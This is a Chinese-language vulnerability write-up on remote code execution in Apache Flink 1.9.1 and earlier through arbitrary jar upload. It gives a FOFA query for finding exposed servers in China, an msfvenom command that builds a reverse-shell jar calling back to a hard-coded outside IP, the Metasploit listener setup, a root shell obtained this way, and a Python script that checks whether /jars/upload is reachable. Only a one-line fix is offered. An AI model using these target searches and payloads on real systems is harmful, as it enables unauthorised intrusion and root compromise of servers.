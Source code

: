 # Apache Flink <= 1.9.1(最新版本) 远程代码执行

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞.

##  影响范围

Apache Flink  <= 1.9.1(最新版本)

## FOFA

```fofa
FOFA 语句
app="Apache-Flink" && country="CN"
```

![](image/flink-1.png)

国内还是很多使用 `Apache Flink` 的，大概有1000的数量左右

## 漏洞复现

随便打开一个使用 Apache Flink 的网站，打开后页面为这样子

![](image/flink-2.png)

点击查看文件上传页面

![](image/flink-3.png)



打开MSF 生成一个 jar 木马

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=39.99.135.123  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![](image/flink-4.png)

监听端口

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![](image/flink-6.png)

点击下 submit 

![](image/flink-5.png)

反弹回来一个root 权限shell

![](image/flink-7.png)

## 漏洞检测POC

```python
import requests

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech         \033[0m')
    print('+  \033[34mVersion: Apache Flink <= 1.9.1          \033[0m')
    print('+  \033[36m使用格式: python3 Apache_Flink.py         \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:9999  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jars/upload"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if "Unable to load requested file /jars/upload." in response.text:
            print("\033[32m[o] 可能存在 Apache Flink <= 1.9.1 远程代码执行漏洞\n\033[0m")
        else:
            print("\033[31m[x] 目标Url 文件上传模块无法使用\033[0m")
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/flink-8.png)

## 修复方法

关闭文件上传调试模块
